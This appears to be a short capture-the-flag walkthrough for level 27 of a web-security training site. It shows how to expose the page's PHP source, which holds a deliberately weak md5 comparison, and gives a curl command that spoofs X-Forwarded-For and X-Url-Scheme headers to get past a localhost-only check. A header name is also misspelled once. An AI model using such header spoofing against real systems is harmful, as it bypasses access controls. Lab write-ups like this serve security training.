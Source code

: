 # Level-27

Level27-28 (https://matrix.voorivex.academy/the-final-fight-57a31594d5784b29e02960fd427f8703/)

send this request:

```text
https://matrix.voorivex.academy/the-final-fight-57a31594d5784b29e02960fd427f8703/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if ($_GET['code1'] !== $_GET['code2']) {
    if (md5($_GET['code1']) === md5($_GET['code2'])) {
        require_once('next.php');
        die($next);
    }
}


?>
```

if you send a request like this, you will get an error:

```text
https://matrix.voorivex.academy/the-final-fight-57a31594d5784b29e02960fd427f8703/?code=1

only accessible from 127.0.0.1 over http schema
```

you should provide two additional headers:

- X-Forwarder-For
- X-Url-Scheme

send this request:

```text
curl -H "X-Forwarded-For: 127.0.0.1" -H "X-Url-Scheme: http" https://matrix.voorivex.academy/the-final-fight-57a31594d5784b29e02960fd427f8703/?code=1
```

you will get this:

```text
the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca
```










